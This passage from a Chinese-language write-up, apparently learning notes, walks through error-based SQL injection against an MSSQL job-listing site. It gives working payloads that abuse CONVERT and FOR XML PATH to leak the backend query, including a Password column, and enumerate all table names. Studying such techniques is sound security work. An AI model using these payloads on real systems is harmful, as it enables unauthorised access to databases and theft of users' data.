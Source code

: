 成功提取到 `@@version`

5. `' AND 1 = CONVERT(int,(SELECT table_name FROM information_schema.tables))--`

```
string(220) "SQLSTATE[21000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]子查詢傳回不只 1 個值。這種狀況在子查詢之後有 =、!=、<、<=、>、>= 或是子查詢做為運算式使用時是不允許的。"
string(975) "
select Id, Name, ShortName, Code, Address
, Product, Industry, TypeId, Welfare, Web
, Logo, ContactPerson, ContactMobile, ContactPhone, ContactFax
, ContactMail, ContactMailShown, FileName, FilePath, Hit
, CreateTime, ModifyTime, Enabled, Password, LoginTime
, LoginCount, Source, Certificate

, (select Name from Type where Id=A.TypeId) as TypeName
, (select count(*) from Job where CompanyId=A.Id) as JobAllCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1) as JobEnabledCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1 and (IsClosed=0 and (ExpiredDate is null or CURRENT_TIMESTAMP < ExpiredDate+1))) as JobValidCount
, (select count(*) from BookmarkCompany where CompanyId=A.Id) as BookmarkCount
, (select count(*) from Send where JobId in (select Id from Job where CompanyId=A.Id and Enabled=1)) as SendCount

from Company A
 where Code='' AND 1 = CONVERT(int,(SELECT table_name FROM information_schema.tables))--';"
....
```

學習了，所以下一步是要想辦法把 `table_name` 拼接起來，參考 [之前 SQLi MSSQL 的技巧](./sql-injection-wowisee-success.md#學到的東西) 試試看

6. `' AND 1 = CONVERT(int,(SELECT table_name FROM information_schema.tables FOR XML PATH('')))--`

```xml
<table_name>Variables</table_name>
<table_name>College</table_name>
<table_name>Student</table_name>
<table_name>Type</table_name>
<table_name>City</table_name>
<table_name>Send</table_name>
<table_name>Welfare</table_name>
<table_name>Company</table_name>
<table_name>News</table_name>
<table_name>CompanyCity</table_name>
<table_name>CompanyWelfare</table_name>
<table_name>Job</table_name>
<table_name>JobType</table_name>
<table_name>JobCity</table_name>
<table_name>CompanyFromSIS</table_name>
<table_name>Status</table_name>
<table_name>StudentStatus</table_name>
<table_name>StudentCity</table_name>
<table_name>BookmarkJob</table_name>
<table_name>BookmarkCompany</table_name>
```
